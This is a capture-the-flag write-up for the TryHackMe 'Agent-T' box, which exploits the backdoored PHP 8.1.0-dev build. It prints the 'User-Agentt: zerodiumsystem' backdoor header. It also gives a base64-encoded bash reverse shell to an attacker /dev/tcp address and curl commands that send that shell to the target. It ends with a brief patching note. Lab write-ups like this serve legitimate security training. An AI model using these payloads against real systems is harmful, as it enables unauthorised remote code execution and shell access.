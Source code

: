 # Agent-T Writeup

Name: Agent-T
Date:  09/01/2023
Description: Something seems a liTTLe off with the server.
Better Description: Backdoor o'clock
Difficulty:  Easy
Goals:  
- Quick B2R as I going loads of everything else today.
Learnt:
- Supply Chain attacks are pretty awesome
Beyond Root:
- Patch it

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Agent-T/Screenshots/ping.png)

![](nmapscan.png)

## Exploit

Nmap discovery script found 8.1.0-dev in the header information. 
![](php8-1-0dev.png)
8.1.0-dev was victim to a supply-chain attack and a backdoor was place when using the header to run arbituary PHP code:
```php
// everything after the system will be executed as a php system command 
"User-Agentt": "zerodiumsystem('" + cmd + "');"
```

For a good 16 minute video by [John Hammond](https://www.youtube.com/watch?v=j-wmhJ8u5Ws) and the [Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

For some reason this should work, but I thought I forgot escape quotations and I am leaving this here as a reminder and testiment to handling quotes workflow. Although actually it is `('"<cmd>"')` reading issue I had.
```bash
# create the variable to be copy and paste lazy 
base64encodedpayload=$(echo "/bin/bash -c 'exec bash -i &>/dev/tcp/$ip/1337 <&1'" | base64 -w0)
curl http://10.10.129.151  -H 'User-Agentt: zerodiumsystem("echo $base64encodedpayload | base64 -d | bash");' -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Regardless

```bash
curl http://10.10.129.151  -H "User-Agentt: zerodiumsystem('echo $base64encodedpayload | base64 -d | bash');" -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
```

## Foothold && PrivEsc

And we are Root
![](root.png)

## Beyond Root

This box was very easy, but I want to practice and showcase patching this. Also I want to try manual without lookup finding the code and patching it. We are also ina docker container so I could try a container escape.
![](weareinadockercontainer.png)

Patching - downgrade to 8.0 or upgrade to a later version
